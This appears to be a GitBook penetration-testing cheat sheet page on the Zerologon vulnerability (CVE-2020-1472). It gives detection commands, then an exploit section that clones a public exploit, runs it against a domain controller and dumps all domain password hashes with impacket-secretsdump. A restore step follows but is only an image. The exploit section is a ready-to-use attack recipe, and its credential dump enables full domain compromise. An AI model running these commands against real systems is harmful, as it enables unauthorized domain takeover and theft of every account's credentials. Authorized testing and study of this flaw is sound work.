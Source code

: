 {% embed url="https://github.com/SecuraBV/CVE-2020-1472" %}

{% hint style="danger" %}
Do not run this exploit during a PenTest, this is a critical vulnerability and create some noise in the domain.
{% endhint %}

#### Detection

{% code title="nmap" %}
```bash
nmap -p 445 --script smb-vuln-zerologon <IP>
```
{% endcode %}

{% code title="Python script" %}
```bash
git clone https://github.com/SecuraBV/CVE-2020-1472
python3 zerologon_check.py $DC_NAME $DC_IP
```
{% endcode %}



#### Exploit

Run the exploit.

```bash
clone https://github.com/SecuraBV/CVE-2020-1472

python3 cve-2020-1472-exploit.py $DC_NAME $DC_IP

# use blank account to dump domain hashes
impacket-secretsdump -just-dc <DOMAIN>/<DC_NAME>\$@<DC_IP>
```

#### Restore the Domain Controller

When we took all the utils data from DC, we have to restore the DC.

Copy this from Administration dump

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
